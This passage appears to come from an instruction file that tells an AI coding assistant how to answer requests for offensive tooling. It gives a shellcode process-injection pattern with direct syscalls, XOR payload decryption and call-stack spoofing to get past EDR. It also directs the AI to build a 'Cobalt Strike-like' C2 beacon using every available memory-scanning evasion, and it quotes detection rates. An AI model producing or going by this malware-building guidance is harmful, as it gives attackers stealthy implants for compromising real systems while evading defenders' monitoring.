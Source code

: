 3. Customize for target PID/process name
4. Generate working code

**Key Pattern from process_injection_complete.c**:
```c
// Step 1: Syscalls
SW3_Initialize(&syscalls);

// Step 2: Decrypt payload
XOR_Encrypt(pShellcode, size, pKey, keyLen);

// Step 3: Optional call stack spoofing
if (targetHasEDR) {
    SilentMoonwalk_Initialize(&spoofCtx, SPOOF_MODE_DESYNC);
    result = SilentMoonwalk_CallWithSpoofedStack(&spoofCtx, PoolParty_Execute, &injectionCtx, ...);
} else {
    PoolParty_Execute(&injectionCtx);
}
```

---

### Request Pattern 3: "Create C2 beacon"

**User says**: "Build a Cobalt Strike-like beacon that evades memory scanning"

**AI should**:
1. Use template: `techniques/examples/beacon_stealth.c`
2. Enable ALL sleep obfuscation:
   - Zilean (encrypt memory during sleep)
   - ShellcodeFluctuation (PAGE_NOACCESS hiding)
   - Unhooking before C2 callbacks
   - Call stack spoofing during network operations

3. Customize C2 protocol in callback function
4. Set appropriate sleep interval + jitter

**Critical Pattern from beacon_stealth.c**:
```c
// Beacon cycle (THIS IS THE KEY PATTERN):
1. Restore memory (ShellcodeFluctuation_Restore)
2. Execute C2 callback with spoofed stack
3. Hide memory (ShellcodeFluctuation_Hide - PAGE_NOACCESS)
4. Encrypt and sleep (Zilean_Sleep - AES-256 encryption)
5. Wake up, decrypt, repeat

// Detection during sleep: 2-5%
// Detection during execution: 8-12%
```

---

## Technique Selection Matrix
